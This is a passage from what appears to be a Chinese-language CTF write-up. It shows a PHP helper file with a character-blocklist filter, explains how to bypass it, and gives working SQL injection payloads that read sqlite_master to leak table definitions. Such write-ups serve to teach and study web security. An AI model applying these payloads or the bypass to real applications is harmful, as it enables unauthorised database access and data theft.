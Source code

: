 
util.php:

```
&lt;?php
function redirect($path) {
  header('Location: ' . $path);
  exit();
}

function flash($message, $path = '?page=index') {
  $_SESSION['flash'] = $message;
  redirect($path);
}

function e($string) {
  return htmlspecialchars($string, ENT_QUOTES);
}

function is_valid($string) {
  $banword = [
    // comment out, calling function...
    "["#'()*,\/\\`-]"
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $string)) {
    return false;
  }
  return true;
}
```

`table_name`和`columns`参数存在SQL注入，但是我们不知道flag的表名和列名。<br>
每个sqlite都有一个自动创建的库`sqlite_master`，里面保存了所有表名以及创建表时的create语句。我们可以从中获取到flag的表名和字段名。

另一个知识点，在创建表时可以用`as`来复制另一个表中的数据。这里我们就可以用`as select sql from sqlite_master`来复制`sqlite_master`的`sql`字段。

另一个问题，这里拼接的这一串字符是在`as`后面的，会影响后面的sql正常执行。

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_445_/t01c2aca83997598582.png)

因为后面的`$column`也可控，所以这里可以用`as "..."`来把这一段干扰字符闭合到查询的别名里。双引号被过滤了，在sqlite中可以用中括号`[]`来代替。

构造出payload：

```
table_name=aaa as select sql as[&amp;columns[0][name]=]from sqlite_master;&amp;columns[0][type]=2

// select别名的as也可以省略
table_name=aaa as select sql [&amp;columns[0][name]=]from sqlite_master;&amp;columns[0][type]=2
```

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_485_/t0187a066fe0bab2f37.png)
